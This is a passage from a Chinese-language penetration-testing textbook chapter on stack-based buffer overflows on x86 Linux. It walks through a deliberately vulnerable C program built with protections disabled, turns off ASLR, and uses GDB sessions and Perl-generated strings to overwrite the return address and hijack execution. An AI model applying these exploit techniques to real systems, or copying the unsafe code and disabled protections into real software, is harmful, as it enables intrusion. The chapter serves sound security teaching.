




## 第十六章. Linux 中的基于栈的缓冲区溢出

到目前为止，我们已经使用了诸如 Metasploit 和互联网公开的漏洞利用代码来攻击我们的目标系统。但在渗透测试过程中，你可能会遇到没有现成漏洞利用代码的漏洞，或者你可能发现了一个新的安全问题，想为其编写自己的漏洞利用代码。在本章和接下来的三章中，我们将学习如何编写自己的漏洞利用代码。我们不会覆盖所有最新的 iPhone 越狱方法，但我们会通过一些真实世界中的易受攻击程序来学习如何手动编写有效的漏洞利用代码。

我们将从一个简单的易受攻击的程序开始，在我们的 Linux 目标上让程序做一些开发者未曾预期的事情。

### 注意

本章及第十六章到第十九章中的所有示例都使用 x86 架构。

## 内存理论

在我们开始编写自己的漏洞利用代码之前，我们需要掌握一些内存工作的基本概念。我们的目标是操作内存并诱使 CPU 代替我们执行指令。我们将使用一种称为*基于栈的缓冲区溢出*的技术，它涉及到在程序的内存栈上填充超出变量大小的内容，从而覆盖相邻的内存位置。但首先，我们需要了解一下程序内存的布局，如图 16-1 所示。

图 16-1. 内存可视化

*text* 段包含要执行的程序代码，而 *data* 段包含程序的全局信息。在更高的地址上，我们有一部分是栈和堆共享的，它们在运行时被分配。*stack* 是固定大小的，用于存储函数参数、局部变量等。*heap* 用于存放动态变量。随着更多的函数或子程序被调用，栈的消耗增加，并且栈顶指向较低的内存地址，因为更多的数据被存储在栈上。

我们的 Intel 处理器具有通用寄存器，用于存储未来可能使用的数据。这些寄存器包括：

| **EIP** | 指令指针 |
| --- | --- |
| **ESP** | 栈指针 |
| **EBP** | 基址指针 |
| **ESI** | 源索引 |
| **EDI** | 目标索引 |
| **EAX** | 累加器 |
| **EBX** | 基址 |
| **ECX** | 计数器 |
| **EDX** | 数据 |

ESP、EBP 和 EIP 对我们特别重要。ESP 和 EBP 一起跟踪当前执行函数的栈帧。

如图 16-2 所示，ESP 指向栈帧的顶部，即它的最低内存地址，而 EBP 指向栈帧底部的最高内存地址。EIP 保存着下一条将要执行的指令的内存地址。因为我们的目标是劫持执行并让目标机器执行我们想要的指令，EIP 看起来是一个理想的攻击目标。但我们如何将我们的指令送到 EIP 呢？EIP 是只读的，所以我们不能直接将一个内存地址放入这个寄存器；我们需要更加巧妙一些。

图 16-2. 栈帧

栈是一个先进后出（LIFO）的数据结构。你可以把它想象成食堂里的一堆托盘。最后放上去的托盘是第一个被取走的。要向栈中添加数据，使用`PUSH`指令。同样，要从栈中移除数据，我们使用`POP`指令。（记住，栈的消耗是向着更低的内存地址增加的，因此当数据被压入当前栈帧时，ESP 会移动到内存中的更低地址。）

当程序函数被执行时，它的信息（如局部变量）会被压入栈帧。函数执行完毕后，整个栈帧会被展开，ESP 和 EBP 会指向调用函数的栈帧，执行将继续从调用函数的上次执行位置开始。然而，CPU 必须知道从内存中的哪个位置继续执行，它通过*返回地址*获取这一信息，而返回地址在调用函数时会被压入栈中。

比如，假设我们正在运行一个 C 程序。通常，当程序开始时，`main`函数会被调用，并为其分配一个栈帧。然后，`main`调用另一个函数`function1`。在将`function1`的栈帧压入栈中并交出执行之前，`main`会记录在`function1`返回时需要继续执行的位置（通常是调用`function1`后面的一行代码），通过将这个值——它的返回地址——压入栈中。图 16-3 展示了`main`调用`function1`后的栈状态。

图 16-3. 调用`function1`后的栈

在`function1`执行完毕后，它返回，栈帧被展开，存储的返回地址被加载到 EIP 寄存器中，以恢复到`main`函数的执行。如果我们能够控制这个返回地址，我们就可以在`function1`返回时决定执行哪些指令。在下一节中，我们将通过一个简单的基于栈的缓冲区溢出示例来说明这一点。

在继续之前，请记住几点。在本书中的示例中，我们使用较旧的操作系统来规避现代 Windows 和 Linux 系统中的一些高级反利用技术。特别是，我们将利用 *数据执行防护（DEP）* 和 *地址空间布局随机化（ASLR）* 的缺乏，因为这两者都会使我们很难学习利用的基础知识。DEP 会将特定内存区域标记为不可执行，这阻止了我们在栈上填充 shellcode 并将 EIP 指向该代码以执行（正如你将在 第十七章 中看到的 Windows 缓冲区溢出示例）。ASLR 会随机化我们库文件在内存中的加载位置。在我们的示例中，我们将硬编码返回地址，指向我们希望在内存中跳转的位置，但在启用 ASLR 的攻击环境下，找到正确的执行跳转地址会变得更加复杂。我们将在 第十九章 中介绍更多高级的漏洞编写技巧，但现在我们先从栈溢出攻击的基础开始，先熟悉一下基本原理。

## Linux 缓冲区溢出

现在我们已经完成了令人头疼的理论部分，接下来让我们看一个简单的缓冲区溢出漏洞在 Linux 目标系统上的实际应用示例。首先，确保目标系统已正确配置以进行基本的缓冲区溢出测试。现代操作系统都内置了防护机制来防止这些攻击，但在学习过程中，我们需要关闭这些保护。若你使用的是本书提供的 Linux 目标镜像，系统已经配置正确，但为了确保无误，请检查 `randomize_va_space` 是否设置为 0，如下所示。

```
georgia@ubuntu:~$ **sudo nano /proc/sys/kernel/randomize_va_space**
```

`randomize_va_space`，当设置为 1 或 2 时，会在我们的目标系统上启用 ASLR。默认情况下，Ubuntu 会开启随机化，但为了我们的示例需要关闭此功能。如果文件中包含值 0，那么一切就绪。如果没有，请将文件内容更改为 0 并保存。

### 一个易受攻击的程序

让我们编写一个简单的 C 程序，命名为 *overflowtest.c*，它易受基于栈的缓冲区溢出攻击，示例见 示例 16-1。

### 注意

这个文件位于 *georgia* 的家目录下，存放在本书下载的 Ubuntu 目标镜像中。

示例 16-1. 易受攻击的简单 C 程序

```
  georgia@ubuntu:~$ **nano overflowtest.c**

  #include <string.h>
  #include <stdio.h>

❶ void overflowed() {
          printf("%s\n", "Execution Hijacked");
  }

❷ void function1(char *str){
          char buffer[5];
          strcpy(buffer, str);
  }
❸ void main(int argc, char *argv[])
  {
          function1(argv[1]);
          printf("%s\n", "Executed normally");
  }
```

我们的简单 C 程序并没有做太多事情。它首先包含了两个 C 库，`stdio.h` 和 `string.h`。这使得我们可以在不需要从头开始编写的情况下，使用 C 语言中的标准输入/输出和字符串构造函数。在程序中，我们将使用字符串并输出文本到控制台。

接下来，我们有三个函数：`overflowed`、`function1` 和 `main`。如果调用 `overflowed` ❶，它会将文本“执行劫持”打印到控制台，然后返回。如果调用 `function1` ❷，它声明一个本地变量，一个五个字符的字符串 `buffer`，并将传递给 `function1` 的变量内容复制到 `buffer` 中。`main` ❸ 是程序启动时默认调用的函数，它调用 `function1` 并传递给它程序接收到的第一个命令行参数。在 `function1` 返回后，`main` 将“正常执行”打印到控制台，程序然后退出。

请注意，在正常情况下，`overflowed` 从未被调用，因此“执行劫持”不应出现在控制台中。（当我们溢出缓冲区并劫持程序控制时，你将了解为什么程序中会有这个函数。）

现在，我们编译程序，如此处所示。

```
georgia@ubuntu:~$ **gcc -g -fno-stack-protector -z execstack -o overflowtest overflowtest.c**
```

要编译我们上面展示的 C 代码，我们使用 GCC（GNU 编译器集合），它默认内置在 Ubuntu 中。`-g` 选项告诉 GCC 为 GDB（GNU 调试器）添加额外的调试信息。我们使用 `-fno-stack-protector` 标志关闭 GCC 的堆栈保护机制，如果启用它，它会试图防止缓冲区溢出。`-z execstack` 编译器选项使堆栈可执行，从而禁用另一种缓冲区溢出防护方法。我们通过 `-o` 选项告诉 GCC 将 `overflowtest.c` 编译为名为 `overflowtest` 的可执行文件。

回想一下，`main` 获取程序的第一个命令行参数并将其传递给 `function1`，后者将该值复制到一个五个字符的本地变量中。让我们运行程序并传递命令行参数 `AAAA`，如图所示。必要时，通过 `chmod` 使 `overflowtest` 可执行。我们使用四个 *A* 而不是五个，因为字符串以一个空字节结尾。从技术上讲，如果我们使用五个 *A*，我们就已经在溢出缓冲区了，尽管只是溢出一个字符。

```
georgia@ubuntu:~$ **./overflowtest AAAA**
Executed normally
```

如图所示，程序按我们预期的方式运行：`main` 调用 `function1`，`function1` 将 `AAAA` 复制到 `buffer` 中，`function1` 将执行控制权交还给 `main`，然后 `main` 在程序退出之前将“正常执行”打印到控制台。也许，如果我们给 `overflowtest` 输入一些意外的内容，我们可以强迫它以某种方式运行，从而帮助我们造成缓冲区溢出。

### 造成崩溃

现在让我们尝试给程序传递一个很长的 *A* 字符串作为参数，如此处所示。

```
georgia@ubuntu:~$ **./overflowtest AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA**
Segmentation fault
```

这次，程序因段错误而崩溃。我们程序的问题出在 `strcpy` 的实现上，它在 `function1` 中被使用。`strcpy` 函数接受一个字符串并将其复制到另一个字符串中，但它没有进行任何边界检查，以确保提供的参数能够适应目标字符串变量。`strcpy` 函数会尝试将三、五甚至数百个字符复制到我们五字符的目标字符串中。如果我们的字符串长度为五个字符，而我们复制了 100 个字符，其他 95 个字符将覆盖栈中相邻内存地址的数据。

我们可能会覆盖掉 `function1` 栈帧的其余部分，甚至更高的内存。还记得在那个栈帧的基址后面的内存地址存储了什么吗？在栈帧被压入栈之前，`main` 将它的返回地址压入栈中，以指定 `function1` 返回后程序应继续执行的位置。如果我们复制到 `buffer` 的字符串足够长，我们将从 `buffer` 覆盖内存，一直覆盖到 EBP，覆盖返回地址，甚至进入 `main` 的栈帧。

一旦 `strcpy` 将 `overflowtest` 的第一个参数放入 `buffer` 中，`function1` 就会返回到 `main`。它的栈帧被从栈中弹出，CPU 尝试在返回地址的内存位置执行指令。由于我们已用一串长长的 *A* 字符覆盖了返回地址，如图 16-4 所示，CPU 将尝试在内存地址 `41414141`（四个 *A* 的十六进制表示）执行指令。

图 16-4. 执行 `strcpy` 后的内存

然而，我们的程序不能从内存中的任何位置读取、写入或执行操作，因为那样会导致彻底的混乱。内存地址 `41414141` 对我们的程序来说越界，因此程序会像本节开始时所见那样因段错误而崩溃。

在下一节中，我们将深入分析程序崩溃时的幕后情况。在接下来的 GDB 讨论中，你可以使用命令`maintenance info sections`来查看哪些内存区域被映射到进程中。

### 运行 GDB

我们可以通过在调试器中运行程序，精确地查看内存中发生了什么。我们的 Ubuntu 机器自带 GDB，所以让我们如图所示，打开程序并在调试器中观察，如果我们溢出五字符缓冲区，内存中会发生什么。

```
georgia@ubuntu:~$ **gdb overflowtest**
(gdb)
```

在运行程序之前，我们会设置一些*断点*，以便在程序的特定位置暂停执行，允许我们查看这些时刻的内存状态。因为我们使用`-g`标志编译了程序，所以可以直接查看源代码，如示例 16-2 所示，并可以在我们希望暂停的行设置断点。

示例 16-2. 在 GDB 中查看源代码

```
(gdb) **list 1,16**
1     #include <string.h>
2     #include <stdio.h>
3
4     void overflowed() {
5          printf("%s\n", "Execution Hijacked");
6     }
7
8     void function(char *str){
9          char buffer[5];
10          strcpy(buffer, str); ❶
11      } ❷
12     void main(int argc, char *argv[])
13    {
14        function(argv[1]); ❸
15        printf("%s\n", "Executed normally");
16     }
(gdb)
```

首先，让我们在`main`调用`function1`之前的❸处暂停程序，紧接着在指令执行之前。我们还将在`function1`内部设置两个断点，一个在`strcpy`执行之前的❶处，另一个在`strcpy`执行之后的❷处。

在示例 16-3 中展示了如何在 GDB 中设置断点。使用 GDB 命令`break`，在第 14 行、第 10 行和第 11 行设置断点。

示例 16-3. 在 GDB 中设置断点

```
(gdb) **break 14**
Breakpoint 1 at 0x8048433: file overflowtest.c, line 14.
(gdb) **break 10**
Breakpoint 2 at 0x804840e: file overflowtest.c, line 10.
(gdb) **break 11**
Breakpoint 3 at 0x8048420: file overflowtest.c, line 11.
(gdb)
```

在我们溢出`buffer`并导致程序崩溃之前，让我们先使用四个*A*字符运行程序，如下所示，并观察程序正常执行时的内存情况。

```
(gdb) **run AAAA**
Starting program: /home/georgia/overflowtest AAAA
Breakpoint 1, main (argc=2, argv=0xbffff5e4) at overflowtest.c:14
14        function(argv[1]);
```

我们使用 GDB 命令`run`，后跟参数，来启动调试器中的程序。在这里，我们用四个*A*字符作为参数运行程序。程序在调用`function1`之前停在第一个断点处，这时我们可以使用 GDB 命令`x`检查程序的内存。

GDB 需要知道我们希望查看内存的哪一部分，以及如何显示它。内存内容可以以八进制、十六进制、十进制或二进制格式显示。在我们的漏洞开发旅程中，会看到大量的十六进制格式数据，因此我们使用`x`标志告诉 GDB 以十六进制格式显示内存。

我们还可以按字节、二字节半字、四字节字和八字节巨型数据的增量输出内存。让我们查看从 ESP 寄存器开始的 16 个十六进制格式的字，使用命令`x/16xw $esp`，如示例 16-4 所示。

示例 16-4. 查看内存内容

```
(gdb) **x/16xw $esp**
0xbffff540:    0xb7ff0f50    0xbffff560    0xbffff5b8    0xb7e8c685
0xbffff550:    0x08048470    0x08048340    0xbffff5b8    0xb7e8c685
0xbffff560:    0x00000002    0xbffff5e4    0xbffff5f0    0xb7fe2b38
0xbffff570:    0x00000001    0x00000001    0x00000000    0x08048249
```

`x/16xw $esp`命令会以十六进制格式打印出从 ESP 开始的 16 个四字节字。回想一下本章之前提到的内容，ESP 标记了栈中最低的内存地址。由于我们在调用`function1`之前就已触发了第一个断点，因此此时 ESP 位于`main`的栈帧顶部。

在 GDB 中查看内存的输出，如示例 16-4 所示，可能一开始会有些混乱，所以让我们分解一下。最左边是以 16 字节为增量的内存地址，接着是这些地址处的内存内容。在本例中，前四个字节将是 ESP 的内容，接着是从 ESP 开始并继续向下栈展开的额外内存。

我们可以通过检查 EBP 来找到指向 `main` 栈帧底部（或最高地址）的 EBP，如此处所示，使用命令 `x/1xw $ebp`。

```
(gdb) **x/1xw $ebp**
0xbffff548:    0xbffff5b8
(gdb)
```

这个命令允许我们检查从 EBP 开始的一个十六进制字，以便找到 EBP 寄存器的内存位置和内容。根据输出，`main`的栈帧如下所示：

```
0xbffff540:    0xb7ff0f50    0xbffff560    0xbffff5b8
```

如你所见，这并没有什么复杂的，但话说回来，`main` 只是调用了另一个函数，然后打印了一行文本到屏幕；不需要做繁重的处理。

根据我们对栈的了解，我们可以预期，当我们让程序继续运行并调用 `function1` 时，`main` 的返回地址和 `function1` 的栈帧将被压入栈中。记住，栈是向低地址增长的，所以当我们在 `function1` 内部的下一个断点时，栈顶会位于一个更低的内存地址。回想一下，我们的下一个断点位于 `function1` 内部，即 `strcpy` 指令执行之前。使用 `continue` 命令让程序运行直到下一个断点，如示例 16-5 所示。

示例 16-5. `strcpy` 指令之前的断点

```
(gdb) **continue**
Continuing.

Breakpoint 2, function (str=0xbffff74c "AAAA") at overflowtest.c:10
10          strcpy(buffer, str);
(gdb) **x/16xw $esp**❶
0xbffff520:    0xb7f93849    0x08049ff4    0xbffff538    0x080482e8
0xbffff530:    0xb7fcfff4    0x08049ff4    0xbffff548    0x08048443
0xbffff540:    0xbffff74f    0xbffff560    0xbffff5b8    0xb7e8c685
0xbffff550:    0x08048470    0x08048340    0xbffff5b8    0xb7e8c685
(gdb) **x/1xw $ebp**❷
0xbffff538:    0xbffff548
```

使用 `continue` 命令运行程序直到下一个断点后，检查 ❶ 处的 ESP 和 ❷ 处的 EBP，以查看 `function1` 栈帧的内容。`function1` 的栈帧如下所示。

```
0xbffff520:    0xb7f93849    0x08049ff4    0xbffff538    0x080482e8
0xbffff530:    0xb7fcfff4    0x08049ff4    0xbffff548
```

`function1` 的栈帧比 `main` 的栈帧大一些。为局部变量 `buffer` 分配了一些内存，同时为 `strcpy` 提供了一些额外空间，但肯定没有足够的空间容纳 30 或 40 个 *A* 字符。回想上一个断点时，`main` 的栈帧从内存地址 `0xbffff540` 开始。根据我们对栈的了解，`0x08048443`，即 `function1` 栈帧和 `main` 栈帧之间的四字节内存地址，应该是 `main` 的返回地址。我们可以使用 `disass` 命令反汇编 `main`，如示例 16-6 所示，来查看 `0x08048443` 是如何出现的。

示例 16-6. `main` 函数的反汇编

```
(gdb) **disass main**
Dump of assembler code for function main:
0x08048422 <main+0>:     lea    0x4(%esp),%ecx
0x08048426 <main+4>:     and    $0xfffffff0,%esp
0x08048429 <main+7>:     pushl  -0x4(%ecx)
0x0804842c <main+10>:    push   %ebp
0x0804842d <main+11>:    mov    %esp,%ebp
0x0804842f <main+13>:    push   %ecx
0x08048430 <main+14>:    sub    $0x4,%esp
0x08048433 <main+17>:    mov    0x4(%ecx),%eax
0x08048436 <main+20>:    add    $0x4,%eax
0x08048439 <main+23>:    mov    (%eax),%eax
0x0804843b <main+25>:    mov    %eax,(%esp)
0x0804843e <main+28>:    call   0x8048408 <function1> ❶
0x08048443 <main+33>:    movl   $0x8048533,(%esp) ❷
0x0804844a <main+40>:    call   0x804832c <puts@plt>
0x0804844f <main+45>:    add    $0x4,%esp
0x08048452 <main+48>:    pop    %ecx
0x08048453 <main+49>:    pop    %ebp
0x08048454 <main+50>:    lea    -0x4(%ecx),%esp
0x08048457 <main+53>:    ret
End of assembler dump.
```

如果你不熟悉汇编代码，也不用担心。我们要找的指令以简单的英语呈现出来：在 `0x0804843e` ❶ 处，`main` 调用了 `function1` 的内存地址。因此可以推断，当 `function1` 执行完毕后（也就是我们的返回地址），下一个执行的指令将是列表中的下一条指令。果然，❷ 处的下一行显示了我们在栈上找到的返回地址。一切都像理论中说的那样。

让我们让程序继续运行，看看当我们的四个*A*字符被复制到缓冲区时内存发生了什么。在程序在第三个断点处暂停后，以通常的方式检查内存，正如示例 16-7 中所示。

示例 16-7. 在断点 3 处检查内存

```
(gdb) **continue**
Continuing.

Breakpoint 3, function (str=0xbffff74c "AAAA") at overflowtest.c:11
11    }
(gdb) **x/16xw $esp**
0xbffff520:    0xbffff533    0xbffff74c    0xbffff538    0x080482e8
0xbffff530:    0x41fcfff4    0x00414141❶   0xbffff500    0x08048443
0xbffff540:    0xbffff74c    0xbffff560    0xbffff5b8    0xb7e8c685
0xbffff550:    0x08048470    0x08048340    0xbffff5b8    0xb7e8c685
(gdb) **x/1xw $ebp**
0xbffff538:    0xbffff500
```

如图所示，我们仍然在`function1`内部，所以我们的栈帧位置没有变化。在`function1`的栈帧中，我们可以看到四个*A*字符 ❶，以十六进制表示为 41，后面跟着结束的空字节 00。它们恰好适应我们的五字符缓冲区，因此我们的返回地址仍然完好无损，当我们继续让程序运行时，一切都按预期工作，正如示例 16-8 所示。

示例 16-8. 程序正常结束。

```
(gdb) **continue**
Continuing.
Executed normally
Program exited with code 022.
(gdb)
```

果然，“程序正常执行”打印到屏幕上。

现在，让我们重新运行程序，这次使用过多的字符溢出缓冲区，看看内存中发生了什么。

### 在 GDB 中使程序崩溃

我们可以输入一串长长的*A*字符，或者让 Perl 脚本语言为我们生成这串字符，正如示例 16-9 中所示。（当我们尝试通过一个实际的内存地址劫持程序执行时，Perl 将非常有用，而不是让程序崩溃。）

示例 16-9. 以 30 个 A 作为参数运行程序

```
(gdb) **run $(perl -e 'print "A" x 30')** ❶
Starting program: /home/georgia/overflowtest $(perl -e 'print "A" x 30')

Breakpoint 1, main (argc=2, argv=0xbffff5c4) at overflowtest.c:14
14        function(argv[1]);
(gdb) **x/16xw $esp**
0xbffff520:    0xb7ff0f50    0xbffff540    0xbffff598    0xb7e8c685
0xbffff530:    0x08048470    0x08048340    0xbffff598    0xb7e8c685
0xbffff540:    0x00000002    0xbffff5c4    0xbffff5d0    0xb7fe2b38
0xbffff550:    0x00000001    0x00000001    0x00000000    0x08048249
(gdb) **x/1xw $ebp**
0xbffff528:    0xbffff598
(gdb) **continue**
```

在这里，我们告诉 Perl 执行`print`命令生成一串 30 个*A*字符，并将结果作为参数传递给`overflowtest` ❶。当`strcpy`尝试将这么长的字符串放入我们五字符的缓冲区时，我们可以预期看到栈的部分内容被*A*字符覆盖。当我们到达第一个断点时，我们仍然在`main`中，一切看起来都正常。问题应该要等到第三个断点，`strcpy`执行时传入了过多的*A*字符。

### 注意

`main`的栈帧仍然是 12 个字节长，尽管它已经向栈上方移动了 32 个字节。这是由于命令行参数长度等的变化。因此，栈帧的大小会保持一致。

在我们进入真正有趣的部分之前，让我们在示例 16-10 的第二个断点处注意一件事。

示例 16-10. 在断点 2 处检查内存

```
Breakpoint 2, function (str=0xbffff735 'A' <repeats 30 times>)
    at overflowtest.c:10
10        strcpy(buffer, str);
(gdb) **x/16xw $esp**
0xbffff500:    0xb7f93849    0x08049ff4    0xbffff518    0x080482e8
0xbffff510:    0xb7fcfff4    0x08049ff4    0xbffff528    0x08048443❶
0xbffff520:    0xbffff735    0xbffff540    0xbffff598    0xb7e8c685
0xbffff530:    0x08048470    0x08048340    0xbffff598    0xb7e8c685
(gdb) **x/1xw $ebp**
0xbffff518:    0xbffff528
(gdb) **continue**
Continuing.
```

你可以看到这里`function1`的栈帧也上移了 32 个字节。还要注意，我们的返回地址仍然保存着内存地址`0x08048443` ❶。尽管我们的栈帧有些变化，但内存中待执行的指令依然保持在原来的位置。

再次使用`continue`命令，继续到第三个断点。这是事情变得有趣的地方，参见示例 16-11。

示例 16-11：返回地址被*A*覆盖

```
Breakpoint 3, function (str=0x41414141 <Address 0x41414141 out of bounds>)
    at overflowtest.c:11
11    }
(gdb) **x/16xw $esp**
0xbffff500:    0xbffff513    0xbffff733    0xbffff518    0x080482e8
0xbffff510:    0x41fcfff4    0x41414141    0x41414141    0x41414141
0xbffff520:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffff530:    0x08040041    0x08048340    0xbffff598    0xb7e8c685

(gdb) **continue**
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb)
```

让我们在第三个断点后再次查看内存，紧接着`strcpy`之后，但在`function1`返回`main`之前。这次，返回地址被*A*覆盖的位置在❶，而`main`的栈帧部分也被覆盖了。此时，程序已经没有恢复的希望了。

当`function1`返回时，程序尝试执行`main`的返回地址处的指令，但返回地址已被我们的*A*覆盖，导致程序在尝试执行内存地址`41414141`处的指令时发生预期的段错误。（在接下来的章节中，我们将讨论如何用其他内容替换返回地址，使程序跳转到我们自己的代码，而不是崩溃。）

### 控制 EIP

让程序崩溃本身很有意思，但作为漏洞开发者，我们的目标是，如果可能的话，劫持执行并让目标 CPU 代我们执行代码。也许通过操控崩溃，我们可以执行开发者本不打算执行的其他指令。

目前，当我们的程序尝试执行位于内存地址`41414141`的指令时，程序崩溃，因为该地址超出了范围。我们需要更改参数字符串，包含一个程序可以访问的有效内存地址。如果我们能将返回地址替换为另一个有效的内存位置，当`function1`返回时，我们应该能够劫持执行。也许开发者甚至在程序中留下了一些调试代码，我们可以用它来说明这个目的。（但我有点跑题了。）

为了重定向执行，我们首先需要确定返回地址被我们一长串* A *替换的位置。让我们回顾一下，当我们用四个字符的参数正常运行程序时，栈的情况，如下所示。

```
0xbffff520:    0xbffff533    0xbffff74c    0xbffff538    0x080482e8
0xbffff530:    0x41fcfff4    0x00414141❶  0xbffff500❷  0x08048443❸
```

我们可以看到四个*A* ❶是如何被复制到局部变量`buffer`中的。现在，回想一下，EBP ❷之后的四个字节包含了返回地址`0x08048443` ❸。我们可以看到，在四个*A*之后，`function1`的栈帧中还有五个字节，这些字节位于返回地址之前。

从内存来看，合乎逻辑的是，如果我们给程序传递一个长度为 5 + 4 + 4 字节的参数，最后四个字节将覆盖返回地址。我们可以通过向程序传递九个*A*后跟四个*B*的参数来测试。如果程序在尝试执行内存地址`42424242`（*B*的十六进制表示）处的指令时崩溃，我们就知道我们正确地计算了偏移量。

我们可以再次使用 Perl 来帮助我们创建攻击字符串，如示例 16-12 所示。

示例 16-12. 使用新的攻击字符串启动程序

```
(gdb) **delete 1**
(gdb) **delete 2**
(gdb) **run $(perl -e 'print "A" x 9 . "B" x 4')**
The program being debugged has been started already.
Start it from the beginning? (y or n) **y**

Starting program: /home/georgia/overflowtest $(perl -e 'print "A" x 9 . "B" x 4')
```

在我们使用这个新参数运行程序之前，`delete`掉前两个断点，因为直到执行`strcpy`之后，我们的第三个断点才会让内存状态发生有趣的变化。

使用 Perl 启动程序，攻击字符串为九个*A*后跟四个*B*。由于程序在上次运行时崩溃，系统会询问是否从头开始。输入**`y`**表示是。当我们检查唯一剩下的断点时，内存状态如预期所示，如示例 16-13 所示。

示例 16-13. 用 Bs 覆盖返回地址

```
Breakpoint 3, function (str=0xbffff700 "\017") at overflowtest.c:11
11    }
(gdb) **x/20xw $esp**
0xbffff510:    0xbffff523    0xbffff744    0xbffff528    0x080482e8
0xbffff520:    0x41fcfff4    0x41414141    0x41414141    0x42424242❶
0xbffff530:    0xbffff700    0xbffff550    0xbffff5a8    0xb7e8c685
0xbffff540:    0x08048470    0x08048340    0xbffff5a8    0xb7e8c685
0xbffff550:    0x00000002    0xbffff5d4    0xbffff5e0    0xb7fe2b38
(gdb) **continue**
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```

在我们之前看到的返回地址（`0x08048443`）的位置，现在变成了`0x42424242`。如果我们让程序继续运行，就会看到它在尝试执行四个*B*的内存地址时崩溃❶。这再次越界了，但至少现在我们知道该把我们想执行的代码的地址放在哪里。

我们现在已经确定了攻击字符串中哪些四个字节覆盖了返回地址。记住，返回地址是在`function1`返回时加载到 EIP 寄存器中的。现在，我们只需找到一个比`41414141`或`42424242`更有趣的地方来发送执行。

### 劫持执行

我们已经确定了要在攻击字符串中覆盖返回地址的位置，但我们仍然需要放置一些内容。（这个例子相较于我们接下来会讨论的其他漏洞开发例子可能显得有些牵强，但它很好地说明了底层概念。）我们成功地利用程序中使用的`strcpy`函数来操控`buffer`变量，从而覆盖了其他内存地址，包括返回地址。

回顾我们源代码中的*overflowtest.c*，记得程序除了`main`和`function1`外，还包含了另一个函数。程序中的第一个函数，叫做`overflowed`，会向控制台打印“Execution Hijacked”，然后返回。当程序正常运行时，这个额外的函数从未被调用，但正如它的输出所暗示的那样，我们可以利用它来劫持执行。

回到调试器，如果我们能找到`overflowed`在内存中的起始位置，就应该能够将四个*B*替换为该内存地址，覆盖返回地址，并迫使程序执行开发者未曾预料到的指令。我们有源代码并且知道我们要找的函数名，所以这个任务很简单。我们只需反汇编`overflowed`并找出它在内存中的加载位置，如示例 16-14 所示。

示例 16-14. 反汇编 `overflowed`

```
  (gdb) **disass overflowed**
  Dump of assembler code for function overflowed:
❶ 0x080483f4 <overflowed+0>:     push   %ebp
  0x080483f5 <overflowed+1>:     mov    %esp,%ebp
  0x080483f7 <overflowed+3>:     sub    $0x8,%esp
  0x080483fa <overflowed+6>:     movl   $0x8048520,(%esp)
  0x08048401 <overflowed+13>:    call   0x804832c <puts@plt>
  0x08048406 <overflowed+18>:    leave
  0x08048407 <overflowed+19>:    ret
  End of assembler dump.
  (gdb)
```

如你所见，内存地址 `0x80483f4` ❶ 保存着 `overflowed` 中的第一条指令。如果我们将程序重定向到这里，它将执行该函数中的所有指令。

### 注意

这不会给我们带来反向 shell 或将目标加入僵尸网络；它只会将“执行劫持”打印到屏幕上。我们将在接下来的三个章节的漏洞开发示例中，看到更刺激的执行劫持攻击。

我们可以使用 Perl 来帮助我们创建参数字符串，其中包含我们想要使用的内存地址的十六进制字节，以覆盖返回地址，如下所示。

```
(gdb) **run $(perl -e 'print "A" x 9 . "\x08\x04\x83\xf4"')**
Starting program: /home/georgia/overflowtest $(perl -e 'print "A" x 9 . "\x08\x04\x83\xf4"')
```

这次，我们将四个 *B* 替换为 `\x08\x04\x83\xf4`，这应该会将执行流程重定向到 `overflowed` 的开头。但事情并没有按计划进行，如示例 16-15 所示。

示例 16-15. 返回地址字节被翻转

```
Breakpoint 3, function (str=0xbffff700 "\017") at overflowtest.c:11
11    }
(gdb) **x/16xw $esp**
0xbffff510:    0xbffff523    0xbffff744    0xbffff528    0x080482e8
0xbffff520:    0x41fcfff4    0x41414141    0x41414141    0xf4830408❶
0xbffff530:    0xbffff700    0xbffff550    0xbffff5a8    0xb7e8c685
0xbffff540:    0x08048470    0x08048340    0xbffff5a8    0xb7e8c685
(gdb) **continue**
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xf4830408 in ?? ()
```

如你所见，我们按预期达到了断点，但当我们检查内存时，似乎遇到了一些问题。`overflowed` 中第一条指令的内存地址是 `0x80483f4`，但我们栈上的返回地址却是 `0xf4830408` ❶。数字没有完全被反转，但字节顺序却是错误的。

回想一下，两个十六进制数字构成一个字节。当我们让程序继续运行时，收到另一个访问违规错误，因为它尝试在 `0xf4830408` 执行数据。我们知道程序崩溃是因为新的返回地址是错误的，所以让我们来看看这些字节到底是如何乱序的，以便修复这个问题。

### 字节序

